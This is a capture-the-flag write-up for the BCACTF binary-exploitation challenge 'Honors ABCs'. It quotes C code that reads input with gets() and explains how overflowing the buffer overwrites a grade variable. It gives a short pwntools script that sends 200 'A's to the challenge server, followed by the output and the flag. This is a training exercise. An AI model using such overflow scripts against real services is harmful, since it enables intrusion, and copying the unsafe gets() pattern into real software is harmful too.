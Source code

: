 # Honors ABCs

#### Category : binex
#### Points : 75 points (254 solves)
#### Author : Edward Feng

## Challenge
Here at BCA, we don't deal with normal classes. Everything is at the honors level or above! Let's start by learning about the alphabet.

And by learning, we obviously mean testing. Don't cheat!

-   [honors-abcs.c](https://objects.bcactf.com/bcactf2/honors-abcs/honors-abcs.c)
-   [honors-abcs](https://objects.bcactf.com/bcactf2/honors-abcs/honors-abcs)
-   `nc bin.bcactf.com 49155`

## Solution
This was a simple buffer overflow exploit.

#### Vulnerable code
```cpp
    puts("╔════════════════════════╗");
    puts("║ THE QUIZ               ║");
    puts("║                        ║");
    puts("║ 1) Recite the alphabet ║");
    puts("╚════════════════════════╝");
    puts("");
    printf("Answer for 1: ");
    gets(response);

    for (int i = 0; i < 26; ++i) {
        if (response[i] == 0)
            break;
        if (response[i] != correct[i])
            break;

        grade = i * 4;
    }
```
`gets` is being used in the code, so we can overwrite the variable `grade` using it.

#### flag code
```cpp
else if (grade == 100) {
        puts("Perfect score!");
        puts("You are an model BCA student.");
    } else {
        puts("How did you end up here?");
        sleep(2);
        puts("You must have cheated!");
        sleep(2);
        puts("Let me recite the BCA plagarism policy.");
        sleep(2);

        FILE *fp = fopen("flag.txt", "r");
```

#### Getting flag.txt
So clearly, we don't need to assign a particular value to `grade` so we can just send a lot of `A`s and we should get the flag.

```python
#!/usr/bin/python2
from pwn import *
host = "bin.bcactf.com"
port = 49155
s = remote(host, port)
s.recvuntil("Answer for 1: ")
s.sendline("A"*200)
s.recvuntil("BCA plagarism policy.")
print(s.recvuntil("bcactf{")[-7:] + s.recvuntil("}"))
```

```bash
$ python get_flag.py
[+] Opening connection to bin.bcactf.com on port 49155: Done
bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}
[*] Closed connection to bin.bcactf.com port 49155
```

flag  : `bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}`
